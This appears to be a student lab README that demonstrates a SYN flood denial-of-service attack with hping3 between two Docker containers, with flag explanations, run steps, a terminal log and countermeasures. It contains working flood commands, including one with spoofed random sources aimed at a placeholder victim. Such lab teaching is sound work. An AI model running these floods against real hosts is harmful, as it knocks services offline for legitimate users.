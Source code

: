 # DoS
In this exercice, we are going to test one kind of DoS attack: SynFlooding with `hping3` tool.

## Content
- [DoS](#dos)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [hping3](#hping3)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- two services
  - pirate:
    - purpose: execute DoS attack
    - tools: `hping3`
    - ip: 10.10.10.4
  - server:
    - purpose: a prototype of server
    - ip: 10.10.10.2
- environment configuration in `.env` contains:
  - ip addresses configuration
- `docker-compose.yml` configuration
  
## Work Process
### hping3
> hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with ICMP replies. hping3 handle fragmentation, arbitrary packets body and size and can be used in order to transfer files encapsulated under supported protocols. [linux.die.net]

example:
`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
  - --flood: sent packets as fast as possible. Don't show replies.
  - --rand-dest: random destionation address mode. see the man.
  - -V <-- Verbose
  - -c --count: packet count
  - -d --data: data size
  - -S --syn: set SYN flag
  - -w --win: winsize (default 64)
  - -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
  - -s --baseport: base source port (default random)

### How to run
- execute docker-compose: `docker-compose up`
- preview the status of the server: `docker exec -it server htop`
- access to the pirate bash: `docker exec -it pirate bash`
  - execute SynFlooding attack from the pirate on the server: `hping3 --flood -p 80 -S pirate`
  - execute SynFlooding attack while changing the value of packet count: `hping3 -c <value> --flood -p 80 -S pirate`

### Result
- before executing the attack:
![before_attack](demonstration/before_attack.jpg)

- after executing the attack:
![after_attack](demonstration/after_attack.jpg)

```
[ Ahmed@dghaies TP1]$ sudo docker exec -it pirate bash
[root@3186b137c19b /]# hping3 --flood -p 80 -S pirate
HPING pirate (eth0 10.10.10.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```

## Interpretation
- The pirate sends sequence of requests to the server in high frequency.
- The server has to interprete each of these requests and thats makes it busy
- CPU status of the server becomes very high after executing the attack
- If the server has lower specifications, it will be fully charged and it may not have the opporunity to manage requests from real users

## Conclusion
- Every accessible server may be target of Flooding attack
- As counter measurment to Flooding attack, detect earlier the DoS attack and prevent massive SynFlooding by blocking attackers addresses.
- Blocking and detecting DoS attack may be really easy. But in case of attack from multiple devices or zombie clients (DDos), it may be really hard to distinguish the real clients from the fake ones.


[linux.die.net]: https://linux.die.net/man/8/hping3
